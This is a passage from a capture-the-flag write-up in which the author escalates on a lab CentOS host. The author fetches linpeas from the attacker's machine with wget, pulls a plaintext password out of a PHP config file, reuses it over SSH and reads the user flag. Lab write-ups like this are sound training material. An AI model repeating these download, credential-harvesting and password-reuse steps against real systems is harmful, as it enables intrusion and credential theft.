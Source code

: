 ```shell-session
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
bash-4.2$ cat /etc/issue
\S
Kernel \r on an \m

bash-4.2$ cat /etc/os-release 
NAME="CentOS Linux"
VERSION="7 (Core)"
ID="centos"
ID_LIKE="rhel fedora"
VERSION_ID="7"
PRETTY_NAME="CentOS Linux 7 (Core)"
ANSI_COLOR="0;31"
CPE_NAME="cpe:/o:centos:centos:7"
HOME_URL="https://www.centos.org/"
BUG_REPORT_URL="https://bugs.centos.org/"

CENTOS_MANTISBT_PROJECT="CentOS-7"
CENTOS_MANTISBT_PROJECT_VERSION="7"
REDHAT_SUPPORT_PRODUCT="centos"
REDHAT_SUPPORT_PRODUCT_VERSION="7"
```

Let's try making use of `linpeas` to make things easier:
```shell-session
# Getting the linpeas script from our machine...
bash-4.2$ wget http://10.11.5.201:8080/linpeas.sh
bash-4.2$ sh linpeas.sh 
...
╔══════════╣ Searching passwords in config PHP files
        public $password = 'nv5uz9r3ZEDzVjNu';
...
```

Well, we have a password, let's pair that with the username `jjameson` (bruh, just `ls` the `/home` directory -\_-) and try logging into the machine using `ssh`:
```shell-session
$ ssh jjameson@10.10.57.40
jjameson@10.10.57.40's password: ...

[jjameson@dailybugle ~]$ ls -la
total 16
drwx------. 2 jjameson jjameson  99 Dec 15  2019 .
drwxr-xr-x. 3 root     root      22 Dec 14  2019 ..
lrwxrwxrwx  1 jjameson jjameson   9 Dec 14  2019 .bash_history -> /dev/null
-rw-r--r--. 1 jjameson jjameson  18 Aug  8  2019 .bash_logout
-rw-r--r--. 1 jjameson jjameson 193 Aug  8  2019 .bash_profile
-rw-r--r--. 1 jjameson jjameson 231 Aug  8  2019 .bashrc
-rw-rw-r--  1 jjameson jjameson  33 Dec 15  2019 user.txt
[jjameson@dailybugle ~]$ cat user.txt 
27a260fe3cba712cfdedb1c86d80442e
```
